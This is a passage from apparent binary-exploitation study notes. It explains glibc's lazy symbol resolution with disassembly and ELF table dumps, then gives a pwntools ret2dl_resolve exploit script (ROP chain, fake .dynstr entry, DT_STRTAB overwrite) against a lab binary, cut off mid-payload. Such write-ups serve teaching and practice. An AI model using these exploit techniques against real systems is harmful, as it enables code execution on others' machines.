            file.append(check[:-1])
            r.close() 
            
        else:
            r.close()
    except:                                             
        print(sys.exc_info()[0])
        r.close()


file = []
offset = 0x7f                                           

for i in range(0x100):                      
    offset = leak_binary_write(i*offset,0x400000)
    print(f'{hex(i*offset)}')


string1 = b''.join(file)

with open('binary_dump', 'wb') as out:
    out.write(string1)
    out.close()

```

</div>
</details>


# ret2dl_resolve
https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-di-frederico.pdf
<details>
    <summary>how _dl_runtime_resolve works </summary>
        <div>

		
# how _dl_runtime_resolve works
binary: GITHUB LINK TO DL THE BINARY HERE!!! \
first step:before we can exploit something we need to know how it works under the hood! \
the _dl_runtime_resolve() basically does a lookup in some tables that live inside the binary 
```
_dl_runtime_resolve(elf_info , index )
				 |
				 |
  /-----------------------------/
  |
  | _____________________    _____________________      _____________________
  | | Relocation table  |    |   Symbol table    |      |   String table    |
  | |_____rel.plt_______|    |_____.dynsym_______|      |______.dynstr______|
  | |       ...         |    |       ...         |      |       ...         |
  | |___________________|    |___________________|      |___________________|
  >>|      r_offset     |    |      st_name      |   |>>|      read\0       |
    |___________________|    |___________________|   |  |___________________|
    |      r_info       |__  |      st_info      |   |  |       ...         |
    |___________________|  | |___________________|   |  |___________________|
    |       ...         |  | |        ...        |   |  |      setbuf\0     |
    |___________________|  | |___________________|   |  |___________________|
    |      r_offset     |  | |      st_name      | __|  |       ...         |
    |___________________|  | |___________________|      |___________________|
    |      r_info       |  >>|      st_info      |      |                   |
    |___________________|    |___________________|      |___________________|
```

```
→   0x401050 <read@plt+0>     endbr64 
    0x401054 <read@plt+4>     bnd    jmp QWORD PTR [rip+0x236d]        # 0x4033c8 <read@got.plt>
    0x40105b <read@plt+11>    nop    DWORD PTR [rax+rax*1+0x0]
```
at this point the got holds `0x4033c8: 0x0000000000401030`
since this is the first call to read it is not resolved we need to setup the arguments for 
`_dl_runtime_resolve(elf_info , index)`
pushes the index in this case 0x0       
```
    0x401030                  endbr64 
→   0x401034                  push   0x0
    0x401039                  bnd    jmp 0x401020   
```

pushes the elf_info 0x4033c8:	0x00007ffff7ffe2e0       
```
	0x401020                  push   QWORD PTR [rip+0x2392]        # 0x4033b8
    0x401026                  bnd    jmp QWORD PTR [rip+0x2393]        # 0x4033c0
```

at this point we enter the resolving procedure starting with `_dl_runtime_resolve_xsavec`.

```
Dump of assembler code for function _dl_runtime_resolve_xsavec:
=> 0x00007ffff7fd8d30 <+0>:	endbr64 
   0x00007ffff7fd8d34 <+4>:	push   rbx
   0x00007ffff7fd8d35 <+5>:	mov    rbx,rsp
   0x00007ffff7fd8d38 <+8>:	and    rsp,0xffffffffffffffc0
   0x00007ffff7fd8d3c <+12>:	sub    rsp,QWORD PTR [rip+0x23f4d]        # 0x7ffff7ffcc90 <_rtld_global_ro+432>
   0x00007ffff7fd8d43 <+19>:	mov    QWORD PTR [rsp],rax
   0x00007ffff7fd8d47 <+23>:	mov    QWORD PTR [rsp+0x8],rcx
   0x00007ffff7fd8d4c <+28>:	mov    QWORD PTR [rsp+0x10],rdx
   0x00007ffff7fd8d51 <+33>:	mov    QWORD PTR [rsp+0x18],rsi
   0x00007ffff7fd8d56 <+38>:	mov    QWORD PTR [rsp+0x20],rdi
   0x00007ffff7fd8d5b <+43>:	mov    QWORD PTR [rsp+0x28],r8
   0x00007ffff7fd8d60 <+48>:	mov    QWORD PTR [rsp+0x30],r9
   0x00007ffff7fd8d65 <+53>:	mov    eax,0xee
   0x00007ffff7fd8d6a <+58>:	xor    edx,edx
   0x00007ffff7fd8d6c <+60>:	mov    QWORD PTR [rsp+0x250],rdx
   0x00007ffff7fd8d74 <+68>:	mov    QWORD PTR [rsp+0x258],rdx
   0x00007ffff7fd8d7c <+76>:	mov    QWORD PTR [rsp+0x260],rdx
   0x00007ffff7fd8d84 <+84>:	mov    QWORD PTR [rsp+0x268],rdx
   0x00007ffff7fd8d8c <+92>:	mov    QWORD PTR [rsp+0x270],rdx
   0x00007ffff7fd8d94 <+100>:	mov    QWORD PTR [rsp+0x278],rdx
   0x00007ffff7fd8d9c <+108>:	xsavec [rsp+0x40]
   0x00007ffff7fd8da1 <+113>:	mov    rsi,QWORD PTR [rbx+0x10]
   0x00007ffff7fd8da5 <+117>:	mov    rdi,QWORD PTR [rbx+0x8]
   0x00007ffff7fd8da9 <+121>:	call   0x7ffff7fd5e70 <_dl_fixup>
   0x00007ffff7fd8dae <+126>:	mov    r11,rax
   0x00007ffff7fd8db1 <+129>:	mov    eax,0xee
   0x00007ffff7fd8db6 <+134>:	xor    edx,edx
   0x00007ffff7fd8db8 <+136>:	xrstor [rsp+0x40]
   0x00007ffff7fd8dbd <+141>:	mov    r9,QWORD PTR [rsp+0x30]
   0x00007ffff7fd8dc2 <+146>:	mov    r8,QWORD PTR [rsp+0x28]
   0x00007ffff7fd8dc7 <+151>:	mov    rdi,QWORD PTR [rsp+0x20]
   0x00007ffff7fd8dcc <+156>:	mov    rsi,QWORD PTR [rsp+0x18]
   0x00007ffff7fd8dd1 <+161>:	mov    rdx,QWORD PTR [rsp+0x10]
   0x00007ffff7fd8dd6 <+166>:	mov    rcx,QWORD PTR [rsp+0x8]
   0x00007ffff7fd8ddb <+171>:	mov    rax,QWORD PTR [rsp]
   0x00007ffff7fd8ddf <+175>:	mov    rsp,rbx
   0x00007ffff7fd8de2 <+178>:	mov    rbx,QWORD PTR [rsp]
   0x00007ffff7fd8de6 <+182>:	add    rsp,0x18
   0x00007ffff7fd8dea <+186>:	jmp    r11
```

we save some values on the stack nothing special so far.
than we jump to `_dl_fixup(*elf_info , index)` `_dl_fixup(rdi,rsi)`
```
_dl_fixup (
   QWORD var_0 = 0x00007ffff7ffe2e0 → 0x0000000000000000,
   Elf64_Word var_1 = 0x0000000000000000
) 
```

```
Dump of assembler code for function _dl_fixup:
=> 0x00007ffff7fd5e70 <+0>:	endbr64 
   0x00007ffff7fd5e74 <+4>:	push   r13
   0x00007ffff7fd5e76 <+6>:	xor    r9d,r9d
   0x00007ffff7fd5e79 <+9>:	push   r12
   0x00007ffff7fd5e7b <+11>:	push   rbp
   0x00007ffff7fd5e7c <+12>:	mov    rbp,rdi
   0x00007ffff7fd5e7f <+15>:	push   rbx
   0x00007ffff7fd5e80 <+16>:	sub    rsp,0x18
   0x00007ffff7fd5e84 <+20>:	mov    rax,QWORD PTR [rdi+0x70]
   0x00007ffff7fd5e88 <+24>:	mov    r10,QWORD PTR [rax+0x8]
   0x00007ffff7fd5e8c <+28>:	mov    rax,QWORD PTR [rdi]
   0x00007ffff7fd5e8f <+31>:	test   BYTE PTR [rdi+0x31e],0x20
   0x00007ffff7fd5e96 <+38>:	je     0x7ffff7fd5e9e <_dl_fixup+46>
   0x00007ffff7fd5e98 <+40>:	add    r10,rax
   0x00007ffff7fd5e9b <+43>:	mov    r9,rax
   0x00007ffff7fd5e9e <+46>:	mov    rdx,QWORD PTR [rbp+0x68]
   0x00007ffff7fd5ea2 <+50>:	mov    ebx,esi
   0x00007ffff7fd5ea4 <+52>:	lea    rcx,[rbx+rbx*2]
   0x00007ffff7fd5ea8 <+56>:	mov    rdi,QWORD PTR [rdx+0x8]
   0x00007ffff7fd5eac <+60>:	mov    rdx,QWORD PTR [rbp+0xf8]
   0x00007ffff7fd5eb3 <+67>:	mov    rdx,QWORD PTR [rdx+0x8]
   0x00007ffff7fd5eb7 <+71>:	add    rdi,r9
   0x00007ffff7fd5eba <+74>:	lea    rsi,[rdx+rcx*8]
   0x00007ffff7fd5ebe <+78>:	add    rsi,r9
   0x00007ffff7fd5ec1 <+81>:	mov    r8,QWORD PTR [rsi+0x8]
   0x00007ffff7fd5ec5 <+85>:	mov    r12,QWORD PTR [rsi]
   0x00007ffff7fd5ec8 <+88>:	mov    rdx,r8
   0x00007ffff7fd5ecb <+91>:	add    r12,rax
   0x00007ffff7fd5ece <+94>:	shr    rdx,0x20
   0x00007ffff7fd5ed2 <+98>:	lea    rcx,[rdx+rdx*1]
   0x00007ffff7fd5ed6 <+102>:	add    rdx,rcx
   0x00007ffff7fd5ed9 <+105>:	lea    rdx,[r10+rdx*8]
   0x00007ffff7fd5edd <+109>:	mov    QWORD PTR [rsp],rdx
   0x00007ffff7fd5ee1 <+113>:	cmp    r8d,0x7
   0x00007ffff7fd5ee5 <+117>:	jne    0x7ffff7fd60dc <_dl_fixup+620>
   0x00007ffff7fd5eeb <+123>:	test   BYTE PTR [rdx+0x5],0x3
   0x00007ffff7fd5eef <+127>:	jne    0x7ffff7fd60b0 <_dl_fixup+576>
   0x00007ffff7fd5ef5 <+133>:	mov    r8,QWORD PTR [rbp+0x1d0]
   0x00007ffff7fd5efc <+140>:	test   r8,r8
   0x00007ffff7fd5eff <+143>:	je     0x7ffff7fd5f2c <_dl_fixup+188>
   0x00007ffff7fd5f01 <+145>:	add    rcx,r9
   0x00007ffff7fd5f04 <+148>:	add    rcx,QWORD PTR [r8+0x8]
   0x00007ffff7fd5f08 <+152>:	movzx  eax,WORD PTR [rcx]
   0x00007ffff7fd5f0b <+155>:	and    eax,0x7fff
   0x00007ffff7fd5f10 <+160>:	lea    rcx,[rax+rax*2]
   0x00007ffff7fd5f14 <+164>:	mov    rax,QWORD PTR [rbp+0x2e8]
   0x00007ffff7fd5f1b <+171>:	lea    r8,[rax+rcx*8]
   0x00007ffff7fd5f1f <+175>:	xor    eax,eax
   0x00007ffff7fd5f21 <+177>:	mov    r9d,DWORD PTR [r8+0x8]
   0x00007ffff7fd5f25 <+181>:	test   r9d,r9d
   0x00007ffff7fd5f28 <+184>:	cmove  r8,rax
   0x00007ffff7fd5f2c <+188>:	mov    ecx,DWORD PTR fs:0x18
   0x00007ffff7fd5f34 <+196>:	mov    eax,0x1
   0x00007ffff7fd5f39 <+201>:	test   ecx,ecx
   0x00007ffff7fd5f3b <+203>:	je     0x7ffff7fd5f4e <_dl_fixup+222>
   0x00007ffff7fd5f3d <+205>:	mov    DWORD PTR fs:0x1c,0x1
   0x00007ffff7fd5f49 <+217>:	mov    eax,0x5
   0x00007ffff7fd5f4e <+222>:	mov    edx,DWORD PTR [rdx]
   0x00007ffff7fd5f50 <+224>:	mov    r10,rsp
   0x00007ffff7fd5f53 <+227>:	push   0x0
   0x00007ffff7fd5f55 <+229>:	mov    r9d,0x1
   0x00007ffff7fd5f5b <+235>:	push   rax
   0x00007ffff7fd5f5c <+236>:	mov    rcx,QWORD PTR [rbp+0x398]
   0x00007ffff7fd5f63 <+243>:	mov    rsi,rbp
   0x00007ffff7fd5f66 <+246>:	add    rdi,rdx
   0x00007ffff7fd5f69 <+249>:	mov    rdx,r10
   0x00007ffff7fd5f6c <+252>:	call   0x7ffff7fcf0d0 <_dl_lookup_symbol_x>
   0x00007ffff7fd5f71 <+257>:	mov    r13,rax
   0x00007ffff7fd5f74 <+260>:	mov    eax,DWORD PTR fs:0x18
   0x00007ffff7fd5f7c <+268>:	pop    rsi
   0x00007ffff7fd5f7d <+269>:	pop    rdi
   0x00007ffff7fd5f7e <+270>:	test   eax,eax
   0x00007ffff7fd5f80 <+272>:	jne    0x7ffff7fd6000 <_dl_fixup+400>
   0x00007ffff7fd5f82 <+274>:	mov    rdx,QWORD PTR [rsp]
   0x00007ffff7fd5f86 <+278>:	test   rdx,rdx
   0x00007ffff7fd5f89 <+281>:	je     0x7ffff7fd6048 <_dl_fixup+472>
   0x00007ffff7fd5f8f <+287>:	cmp    WORD PTR [rdx+0x6],0xfff1
   0x00007ffff7fd5f94 <+292>:	je     0x7ffff7fd6060 <_dl_fixup+496>
   0x00007ffff7fd5f9a <+298>:	test   r13,r13
   0x00007ffff7fd5f9d <+301>:	je     0x7ffff7fd6060 <_dl_fixup+496>
   0x00007ffff7fd5fa3 <+307>:	mov    rax,QWORD PTR [r13+0x0]
   0x00007ffff7fd5fa7 <+311>:	add    rax,QWORD PTR [rdx+0x8]
   0x00007ffff7fd5fab <+315>:	mov    QWORD PTR [rsp+0x8],rax
   0x00007ffff7fd5fb0 <+320>:	movzx  edx,BYTE PTR [rdx+0x4]
   0x00007ffff7fd5fb4 <+324>:	and    edx,0xf
   0x00007ffff7fd5fb7 <+327>:	cmp    dl,0xa
   0x00007ffff7fd5fba <+330>:	je     0x7ffff7fd60d0 <_dl_fixup+608>
   0x00007ffff7fd5fc0 <+336>:	mov    rdx,QWORD PTR [rbp+0x340]
   0x00007ffff7fd5fc7 <+343>:	test   rdx,rdx
   0x00007ffff7fd5fca <+346>:	je     0x7ffff7fd5fe1 <_dl_fixup+369>
   0x00007ffff7fd5fcc <+348>:	shl    rbx,0x5
   0x00007ffff7fd5fd0 <+352>:	add    rbx,rdx
   0x00007ffff7fd5fd3 <+355>:	mov    eax,DWORD PTR [rbx+0x1c]
   0x00007ffff7fd5fd6 <+358>:	test   eax,eax
   0x00007ffff7fd5fd8 <+360>:	je     0x7ffff7fd6070 <_dl_fixup+512>
   0x00007ffff7fd5fde <+366>:	mov    rax,QWORD PTR [rbx]
   0x00007ffff7fd5fe1 <+369>:	mov    edx,DWORD PTR [rip+0x26b49]        # 0x7ffff7ffcb30 <_rtld_global_ro+80>
   0x00007ffff7fd5fe7 <+375>:	test   edx,edx
   0x00007ffff7fd5fe9 <+377>:	jne    0x7ffff7fd5fef <_dl_fixup+383>
   0x00007ffff7fd5feb <+379>:	mov    QWORD PTR [r12],rax
   0x00007ffff7fd5fef <+383>:	add    rsp,0x18
   0x00007ffff7fd5ff3 <+387>:	pop    rbx
   0x00007ffff7fd5ff4 <+388>:	pop    rbp
   0x00007ffff7fd5ff5 <+389>:	pop    r12
   0x00007ffff7fd5ff7 <+391>:	pop    r13
   0x00007ffff7fd5ff9 <+393>:	ret    
   0x00007ffff7fd5ffa <+394>:	nop    WORD PTR [rax+rax*1+0x0]
   0x00007ffff7fd6000 <+400>:	xor    eax,eax
   0x00007ffff7fd6002 <+402>:	xchg   DWORD PTR fs:0x1c,eax
   0x00007ffff7fd600a <+410>:	cmp    eax,0x2
   0x00007ffff7fd600d <+413>:	jne    0x7ffff7fd5f82 <_dl_fixup+274>
   0x00007ffff7fd6013 <+419>:	xor    r10d,r10d
   0x00007ffff7fd6016 <+422>:	mov    edx,0x1
   0x00007ffff7fd601b <+427>:	mov    esi,0x81
   0x00007ffff7fd6020 <+432>:	mov    rax,QWORD PTR fs:0x10
   0x00007ffff7fd6029 <+441>:	lea    rdi,[rax+0x1c]
   0x00007ffff7fd602d <+445>:	mov    eax,0xca
   0x00007ffff7fd6032 <+450>:	syscall 
   0x00007ffff7fd6034 <+452>:	mov    rdx,QWORD PTR [rsp]
   0x00007ffff7fd6038 <+456>:	test   rdx,rdx
   0x00007ffff7fd603b <+459>:	jne    0x7ffff7fd5f8f <_dl_fixup+287>
   0x00007ffff7fd6041 <+465>:	nop    DWORD PTR [rax+0x0]
   0x00007ffff7fd6048 <+472>:	mov    QWORD PTR [rsp+0x8],0x0
   0x00007ffff7fd6051 <+481>:	xor    eax,eax
   0x00007ffff7fd6053 <+483>:	jmp    0x7ffff7fd5fc0 <_dl_fixup+336>
   0x00007ffff7fd6058 <+488>:	nop    DWORD PTR [rax+rax*1+0x0]
   0x00007ffff7fd6060 <+496>:	xor    eax,eax
   0x00007ffff7fd6062 <+498>:	jmp    0x7ffff7fd5fa7 <_dl_fixup+311>
   0x00007ffff7fd6067 <+503>:	nop    WORD PTR [rax+rax*1+0x0]
   0x00007ffff7fd6070 <+512>:	mov    rdx,QWORD PTR [rsp]
   0x00007ffff7fd6074 <+516>:	lea    rcx,[rsp+0x8]
   0x00007ffff7fd6079 <+521>:	mov    r8,r13
   0x00007ffff7fd607c <+524>:	mov    rsi,rbx
   0x00007ffff7fd607f <+527>:	mov    rdi,rbp
   0x00007ffff7fd6082 <+530>:	call   0x7ffff7fde900 <_dl_audit_symbind>
   0x00007ffff7fd6087 <+535>:	mov    ecx,DWORD PTR [rip+0x26aa3]        # 0x7ffff7ffcb30 <_rtld_global_ro+80>
   0x00007ffff7fd608d <+541>:	mov    rax,QWORD PTR [rsp+0x8]
   0x00007ffff7fd6092 <+546>:	test   ecx,ecx
   0x00007ffff7fd6094 <+548>:	jne    0x7ffff7fd5fef <_dl_fixup+383>
   0x00007ffff7fd609a <+554>:	mov    QWORD PTR [rbx],rax
   0x00007ffff7fd609d <+557>:	mov    DWORD PTR [rbx+0x1c],0x1
   0x00007ffff7fd60a4 <+564>:	mov    rax,QWORD PTR [rsp+0x8]
   0x00007ffff7fd60a9 <+569>:	jmp    0x7ffff7fd5fe1 <_dl_fixup+369>
   0x00007ffff7fd60ae <+574>:	xchg   ax,ax
   0x00007ffff7fd60b0 <+576>:	xor    ecx,ecx
   0x00007ffff7fd60b2 <+578>:	cmp    WORD PTR [rdx+0x6],0xfff1
   0x00007ffff7fd60b7 <+583>:	mov    r13,rbp
   0x00007ffff7fd60ba <+586>:	cmove  rax,rcx
   0x00007ffff7fd60be <+590>:	add    rax,QWORD PTR [rdx+0x8]
   0x00007ffff7fd60c2 <+594>:	mov    QWORD PTR [rsp+0x8],rax
   0x00007ffff7fd60c7 <+599>:	jmp    0x7ffff7fd5fb0 <_dl_fixup+320>
   0x00007ffff7fd60cc <+604>:	nop    DWORD PTR [rax+0x0]
   0x00007ffff7fd60d0 <+608>:	call   rax
   0x00007ffff7fd60d2 <+610>:	mov    QWORD PTR [rsp+0x8],rax
   0x00007ffff7fd60d7 <+615>:	jmp    0x7ffff7fd5fc0 <_dl_fixup+336>
   0x00007ffff7fd60dc <+620>:	lea    rcx,[rip+0x1e09d]        # 0x7ffff7ff4180 <__PRETTY_FUNCTION__.1>
   0x00007ffff7fd60e3 <+627>:	mov    edx,0x3f
   0x00007ffff7fd60e8 <+632>:	lea    rsi,[rip+0x1b046]        # 0x7ffff7ff1135
   0x00007ffff7fd60ef <+639>:	lea    rdi,[rip+0x1e052]        # 0x7ffff7ff4148
   0x00007ffff7fd60f6 <+646>:	call   0x7ffff7fe1460 <__GI___assert_fail>
```

we set the elf_info as rbp and setup some pointers 

at ` 0x7ffff7fd5e88 <_dl_fixup+24>   mov    r10, QWORD PTR [rax+0x8]` we load the pointer to the DT_SYMTAB into r10

```
                             //
                             // .dynsym 
                             // SHT_DYNSYM  [0x400390 - 0x400437]
                             // ram:00400390-ram:00400437
                             //
                             __DT_SYMTAB                                     XREF[2]:     00403268(*), 
                                                                                          _elfSectionHeaders::00000190(*)  
        00400390 00 00 00        Elf64_Sy
                 00 00 00 
                 00 00 00 
           00400390 00 00 00 00 00  Elf64_Sym                         [0]                               XREF[2]:     00403268(*), 
                    00 00 00 00 00                                                                                   _elfSectionHeaders::00000190(*)  
                    00 00 00 00 00
              00400390 00 00 00 00     ddw       0h                      st_name                           XREF[2]:     00403268(*),                                                                                                       
              00400394 00              db        0h                      st_info
              00400395 00              db        0h                      st_other
              00400396 00 00           dw        0h                      st_shndx
              00400398 00 00 00 00 00  dq        0h                      st_value
                       00 00 00
              004003a0 00 00 00 00 00  dq        0h                      st_size
                       00 00 00
           004003a8 11 00 00 00 12  Elf64_Sym                         [1]
                    00 00 00 00 00 
                    00 00 00 00 00
              004003a8 11 00 00 00     ddw       11h                     st_name       read
              004003ac 12              db        12h                     st_info
              004003ad 00              db        0h                      st_other
              004003ae 00 00           dw        0h                      st_shndx
              004003b0 00 00 00 00 00  dq        0h                      st_value
                       00 00 00
              004003b8 00 00 00 00 00  dq        0h                      st_size
                       00 00 00
           004003c0 25 00 00 00 12  Elf64_Sym                         [2]           __libc_start_main
                    00 00 00 00 00 
                    00 00 00 00 00
           004003d8 43 00 00 00 20  Elf64_Sym                         [3]           __gmon_start__
                    00 00 00 00 00 
                    00 00 00 00 00
           004003f0 1d 00 00 00 12  Elf64_Sym                         [4]           setvbuf
                    00 00 00 00 00 
                    00 00 00 00 00
           00400408 16 00 00 00 11  Elf64_Sym                         [5]           stdout
                    00 1a 00 f0 33 
                    40 00 00 00 00
           00400420 0b 00 00 00 11  Elf64_Sym                         [6]           stdin
                    00 1a 00 00 34 
                    40 00 00 00 00

```

at `0x00007ffff7fd5e9e <+46>:	mov    rdx,QWORD PTR [rbp+0x68]` we load the pointer to the .dynamic entry for the DT_STRTAB section of the binary into the rdx

.dynamic
```
           00403250 05 00 00 00 00  Elf64_Dyn                         [8]
                    00 00 00 38 04 
                    40 00 00 00 00
              00403250 05 00 00 00 00  Elf64_Dy  DT_STRTAB               d_tag         DT_STRTAB - Addres
                       00 00 00
              00403258 38 04 40 00 00  dq        __DT_STRTAB             d_val
                       00 00 00
```

at `0x7ffff7fd5ea8 <_dl_fixup+56>   mov    rdi, QWORD PTR [rdx+0x8]` we load the pointer to the DT_STRTAB into rdi

DT_STRTAB
```
                             //
                             // .dynstr 
                             // SHT_STRTAB  [0x400438 - 0x400489]
                             // ram:00400438-ram:00400489
                             //
                             __DT_STRTAB                                     XREF[2]:     00403258(*), 
                                                                                          _elfSectionHeaders::000001d0(*)  
        00400438 00              ??         00h
        00400439 6c 69 62        ds         "libc.so.6"
                 63 2e 73 
                 6f 2e 36 00
        00400443 73 74 64        ds         "stdin"
                 69 6e 00
        00400449 72 65 61        ds         "read"
                 64 00
        0040044e 73 74 64        ds         "stdout"
                 6f 75 74 00
        00400455 73 65 74        ds         "setvbuf"
                 76 62 75 
                 66 00
        0040045d 5f 5f 6c        ds         "__libc_start_main"
                 69 62 63 
                 5f 73 74 
        0040046f 47 4c 49        ds         "GLIBC_2.2.5"
                 42 43 5f 
                 32 2e 32 
        0040047b 5f 5f 67        ds         "__gmon_start__"
                 6d 6f 6e 
                 5f 73 74 

```

at `0x7ffff7fd5eac <_dl_fixup+60>   mov    rdx, QWORD PTR [rbp+0xf8]` we load the pointer to the DT_JMPREL entry of the .dynamic section into rdx 

```
           004032d0 17 00 00 00 00  Elf64_Dyn                         [16]
                    00 00 00 18 05 
                    40 00 00 00 00
              004032d0 17 00 00 00 00  Elf64_Dy  DT_JMPREL               d_tag         DT_JMPREL - Addres
                       00 00 00
              004032d8 18 05 40 00 00  dq        __DT_JMPREL             d_val
                       00 00 00
```

at `0x7ffff7fd5eb3 <_dl_fixup+67>   mov    rdx, QWORD PTR [rdx+0x8]` we load a pointer to the actual `DT_JMPREL` into rdx

```
                             //
                             // .rela.plt 
                             // SHT_RELA  [0x400518 - 0x400547]
                             // ram:00400518-ram:00400547
                             //
                             __DT_JMPREL                                     XREF[2]:     004032d8(*), 
                                                                                          _elfSectionHeaders::000002d0(*)  
        00400518 c8 33 40        Elf64_Re
                 00 00 00 
                 00 00 07 
           00400518 c8 33 40 00 00  Elf64_Rela                        [0]                               XREF[2]:     004032d8(*), 
                    00 00 00 07 00                                                                                   _elfSectionHeaders::000002d0(*)  
                    00 00 01 00 00
              00400518 c8 33 40 00 00  dq        4033C8h                 r_offset      location to apply   XREF[2]:     004032d8(*), 
                       00 00 00                                                                                         _elfSectionHeaders::000002d0(*)  
              00400520 07 00 00 00 01  dq        100000007h              r_info        the symbol table i
                       00 00 00
              00400528 00 00 00 00 00  dq        0h                      r_addend      a constant addend 
                       00 00 00
           00400530 d0 33 40 00 00  Elf64_Rela                        [1]
                    00 00 00 07 00 
                    00 00 04 00 00
              00400530 d0 33 40 00 00  dq        4033D0h                 r_offset      location to apply 
                       00 00 00
              00400538 07 00 00 00 04  dq        400000007h              r_info        the symbol table i
                       00 00 00
              00400540 00 00 00 00 00  dq        0h                      r_addend      a constant addend 
                       00 00 00
```

at `0x7ffff7fd5ec1 <_dl_fixup+81>   mov    r8, QWORD PTR [rsi+0x8]` we load the r_info of the (index) entry of the `DT_JMPREL`

at`0x7ffff7fd5ec5 <_dl_fixup+85>   mov    r12, QWORD PTR [rsi]` we load the r_offset of the (index) entry of the `DT_JMPREL` (at this point its not verry usefull to mess with this but in some cases it could be ;) )

at `0x7ffff7fd5ed9 <_dl_fixup+105>  lea    rdx, [r10+rdx*8]` we load a ptr to the (r_info = 1) entry of the `DT_SYMTAB` into rdx

```
           004003a8 11 00 00 00 12  Elf64_Sym                         [1]
                    00 00 00 00 00 
                    00 00 00 00 00
              004003a8 11 00 00 00     ddw       11h                     st_name       read
              004003ac 12              db        12h                     st_info
              004003ad 00              db        0h                      st_other
              004003ae 00 00           dw        0h                      st_shndx
              004003b0 00 00 00 00 00  dq        0h                      st_value
                       00 00 00
              004003b8 00 00 00 00 00  dq        0h                      st_size
                       00 00 00
```
at `0x7ffff7fd5ee1 <_dl_fixup+113>  cmp    r8d, 0x7` we compare a checksum so the `r_info` allways need to look like this 0x100000007h! 

at `0x7ffff7fd5f4e <_dl_fixup+222>  mov    edx, DWORD PTR [rdx]` we load the st_name value of the DT_SYMTAB entry into edx
   
at `0x7ffff7fd5f66 <_dl_fixup+246>  add    rdi, rdx` we add the st_name to the pointer of the DT_STRTAB to get the pointer to the "read" string inside the DT_STRTAB

at `0x7ffff7fd5f6c <_dl_fixup+252>  call   0x7ffff7fcf0d0 <_dl_lookup_symbol_x>` we call the lookup function which basically searches throu all linked libs to find a function which matches the name provided in rdi (rdi currently holds a pointer to the DT_STRTAB enrty "read")

for the ret2dl_resolve exploit we dont need to know how that works but i would reccomend you at least understand the concecpt of lazy loading.



EXAMPLE resolving puts
we pushed 0 so we look at the first entry of the Relocation table and find the r_info holding 100000007h for now we only care about the 1 which is the offset for the Symbol table  

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/Relocation_table.png">

in the Symbole table we look at offset 1 and find the st_name which holds the offset 10h
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/Symbole_table.png">
		
in the String table we look at ofset 10h and find the string puts
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/String_Table.png">



</div>
</details>




<details>
    <summary>ret2dl_resolve method 1. (PIE is off // RELRO off)</summary>
        <div>
		
# ret2dl_resolve method 1. (PIE is off // RELRO off)

Prerequisites
1. IP controll
2. ability to write to memory we use read() and a mov [reg],reg and corespoding pop gadgets to write our fake frame/dynstr entry.  (if we cant find a pop rdx we could ret2csu before)

in the .dynamic section there is a pointer to the String table .dynstr if RELRO is off this section is actually writeable and we can change the pointer to .dynstr
		
```
gef➤  vmmap 0x4031d0     			#.dynamic start here
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000403000 0x0000000000404000 0x0000000000002000 rw- /home/bex/Desktop/re2dl/resolve_no_relro		
```
		
0x4031d0 + 0x88 = 0x403258
		
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/nRELROdynamicSection_no_relro.png">
		
if we cange d_val to point to a section in the .bss we can basically copy the .dynstr and replace an entry with our own String.
or just place our fake String at the right offset from the start of our fake_dynstr we use setbuf to overwrite it with puts.
		
the offset is 0x1d 0x400455 - 0x400438 = 0x1d
		
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/dynstr_new.png">
		
we place the fake_frame @ 0x403580 and the fake setbuf entry @0x403580+0x1d = 0x40359d

```
 ___________________      ___________________ 
|   Symbole table   |    |    String table   | <<<______
|______.dynsym______|    |______.dynstr______|          |
|        ...        |    |        ...        |          |
|___________________|    |___________________|          |
|       st_name     |_   |       read\0      |          |
|___________________| |  |___________________|          |
|       st_info     | |>>|       puts\0      |          |
|___________________| .  |___________________|          |
        ...............                .................|_______
	.	 ___________________   .  ___________________   |
	.	|   Writeable area  |<<. |      .dynamic     |  |
	.	|________.bss_______|    |___________________|  |
	.	|        ...        |    |        ...        |  |
	.	|___________________|    |___________________|  |
	.	|       read\0      |    |  d_tag: DT_STRTAB |  |
	.	|___________________|    |___________________|  |
	.....>>>|       execve\0    |    |       d_val       |__|
		|___________________|    |___________________|

```
		

		
		
```
#!/usr/bin/env python3
from pwn import *


fname = 'resolve_no_relro'
ip = '0.0.0.0'
port = 1337 #change this
context.binary = elf = ELF('resolve_no_relro')




LOCAL = True

if LOCAL:
    r = process(fname,aslr=True)

    gdbscript="""
    b *main
    b *0x00000000004011c8
    b *0x00000000004011c0
    b *0x401044

    """
    #set follow-fork-mode

    attach('resolve_no_relro',gdbscript=gdbscript)
else:
    r = remote(ip, port)

s = lambda x : r.send(x)
rl = lambda : r.recvline()
rlb = lambda : r.recvlineb()
sl = lambda x : r.sendline(x)
ru = lambda x :r.recvuntil(x)
rcb = lambda x :r.recvb(x)
sla = lambda x,y : r.sendlineafter(x,y)
inter = lambda : r.interactive()


def pwn():


	pop_rdi		= 0x401263
	pop_rsi_r15	= 0x401261
	pop_rdx		= 0x4011d1
	read = elf.plt['read']
	mov_p_rdi_rdx = 0x4011d4

	dl_resolve_setbuf = 0x401044 			#push index (1) + elf_info # the normal resolve for setbuf

	dynaminc = 0x4031d0
	dynaminc_DT_STRTAB = dynaminc + 0x88    #here we have to place our pointer to fake_dynstr



	fake_frame_addr = 0x403580 						#here our fake frame starts 
	fake_dynstr_entry_addr = fake_frame_addr + 0x1d #0x1d cause the st_name for setbuf is 0x1d so the resolve() looks at #0x40359d for the string


	#fake dysntr entry #we dont need to put the whole frame into memory only the right dynstr entry at the right offset from fake_frame start addr 
	fake_dynstr_entry = b'puts\x00'						

	len_fake_dynstr_entry = len(fake_dynstr_entry)


	payload = b''
	payload += b'A'*24				    				#pad

	#write our fake_frame (fake_dynstr) into .bss
	payload += p64(pop_rdi)
	payload += p64(0x00)			    					#read from stdin
	payload += p64(pop_rsi_r15)
	payload += p64(fake_dynstr_entry_addr)
	payload += p64(0x00)			    					#junk r15
	payload += p64(pop_rdx)
	payload += p64(len_fake_dynstr_entry)
	payload += p64(read)

	#overwrite pointer in .dynamic to .dynstr at offset 0x403258 - 0x4031d0 = 0x88
	payload += p64(pop_rdi)				
